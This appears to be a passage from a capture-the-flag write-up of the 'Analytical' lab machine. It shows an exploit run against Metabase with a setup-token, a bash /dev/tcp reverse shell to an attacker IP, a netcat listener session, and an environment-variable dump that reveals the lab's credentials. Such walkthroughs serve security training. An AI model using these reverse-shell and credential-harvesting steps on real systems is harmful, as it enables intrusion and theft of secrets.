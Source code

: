 To you execute this exploit, first you need to get an active `setup-token` at `/api/session/properties`, then set the token in this exploit and run. Do not forget to setup a listener to catch back the Reverse Shell.
```bash
python3 ./main.py --url "http://data.analytical.htb" --token "249fa03d-fd94-4d5b-b94f-b4ebf3df681f" --command "bash -i >& /dev/tcp/10.10.14.12/13337 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent

```

### **Listening on Netcat**
```bash
nc -lnvp 13337
listening on [any] 13337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.233] 58124
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
2547aa128128:/$ whoami
whoami
metabase
```
After stabilizing Netcat, it is time to start to seek for relevant files...
```bash
2547aa128128:/$ ls -la /home/metabase
ls -la /home/metabase
total 8
drwxr-sr-x    1 metabase metabase      4096 Aug 25 15:17 .
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 ..
lrwxrwxrwx    1 metabase metabase         9 Aug  3 12:22 .ash_history -> /dev/null
lrwxrwxrwx    1 metabase metabase         9 Aug 25 15:17 .bash_history -> /dev/null
```

### **Lateral Movement**

Sniffing Credentials on Environment Variables
```bash
00a6c0aad7fb:/$ env
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
```